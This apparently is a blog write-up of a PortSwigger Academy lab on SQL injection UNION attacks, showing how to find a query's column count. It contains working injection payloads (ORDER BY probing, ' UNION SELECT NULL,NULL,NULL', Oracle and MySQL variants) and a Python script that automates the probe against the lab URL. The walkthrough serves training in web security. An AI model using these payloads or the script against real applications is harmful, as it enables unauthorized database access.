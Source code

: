 ```yaml
---
layout: post
title: "SQLi UNION attack, determining the number of columns returned by the query"
date: 2023-05-29
categories:
  - CTF
  - PortSwigger
tags:
  - SQLi
---
```


## SQL Injection Union attacks

For a `UNION` query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

## Description

This [lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns){:target="_blank"} contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks){:target="_blank"} attack that returns an additional row containing null values.

## Steps

First, we need to determine the number of columns returned by the query. Let's intercept the HTTP request when we filter on `Gifts` category and attempt a union SQL injection.

<img src="https://jawad.ca/images/sqli-lab03/sqli-lab03-03.png">

Checking with a single quote (`'`) reveals that the application is vulnerable.

<img src="https://jawad.ca/images/sqli-lab03/sqli-lab03-04.png">

Order by 1, 2, and 3 doesn't fail, but order by 4 fails, indicating that the query has only 3 columns.

<img src="https://jawad.ca/images/sqli-lab03/sqli-lab03-05.png">

<img src="https://jawad.ca/images/sqli-lab03/sqli-lab03-06.png">

Knowing that we have 3 columns, let's replace the ORDER BY 3 with `' UNION SELECT NULL,NULL,NULL` in order to solve the lab.

<img src="https://jawad.ca/images/sqli-lab03/sqli-lab03-07.png">

Now, let's automate the attack using a Python script.

```python
import requests  
import sys  
import urllib3  
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
  
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}  
  
if __name__ == "__main__":  
  try:  
    url = sys.argv[1].strip()  
  except IndexError:  
    print("Usage: %s <url>, e.g www.example.com" % sys.argv[0])  
    sys.exit(-1)  

  path = "/filter?category=Gifts"  
  payload = "'+UNION+SELECT+NULL--" 

  for i in range(1, 10):  
    if i > 1:  
      payload = payload.replace('--', ',NULL--')    
    r = requests.get(url + path + payload, verify=False, proxies=proxies)  
    res = r.text  
    if "Internal Server Error" not in res:  
      print("The number of columns is " + str(i))  
      sys.exit(-1)  

  print("The SQLi attack was not successful, maybe the query returns more than 10 columns?")
```

Executing the above script returns an answer of 3 columns, consistent with what we observed in the manual test. Great!

```powershell
python3 sqli-lab03.py "https://0a110012045284bc8477151900160025.web-security-academy.net"

The number of columns is 3
```

And we can confirm from Burp HTTP History that the SQL error no longer appears when we have 3 columns.

<img src="https://jawad.ca/images/sqli-lab03/sqli-lab03-08.png">

## Notes
- On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like:
	 `' UNION SELECT NULL FROM DUAL--`
- The payloads described use the double-dash comment sequence `--` to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character `#` can be used to identify a comment

